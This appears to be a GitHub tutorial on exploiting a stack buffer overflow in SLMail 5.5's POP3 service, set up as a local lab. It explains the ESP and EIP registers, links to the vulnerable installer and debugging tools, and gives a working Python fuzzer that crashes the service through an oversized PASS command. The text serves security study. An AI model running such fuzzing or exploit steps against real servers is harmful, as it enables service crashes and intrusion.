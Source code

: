 # Windows Bufferoverflow

In this section, there are two registers to remember:

    ESP - Extended Stack Pointer
        push and pop values
    EIP - Extended Instruction Pointer
        holds the current address location for the instruction being executed at any given time

Here I will demostarte the Buffer overflow on Seattle Lab Mail (SLmail) 5.5, download the vulnerable version from here:
https://www.exploit-db.com/apps/12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe

During the practice I used Immunity Debugger with Mona Script.

Download Immunity Debugger:
https://www.immunityinc.com/products/debugger/

Download Mona:
https://github.com/corelan/mona

## Fuzzing buffer

Firstly, I used the following pop3-pass-fuzzer.py script template to fuzz application and discover how many bytes crash the application:

```
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer=["A"]
counter=100

while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    try:
        print "Fuzzing PASS with %s bytes" % len(string)
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect(('127.0.0.1',110))
        s.recv(1024)
        s.send('USER test\r\n')
        s.recv(1024)
        s.send('PASS ' + string + '\r\n')
        s.send('QUIT\r\n')
        s.close()
    except:
        print "Could not connect to POP3!"
```
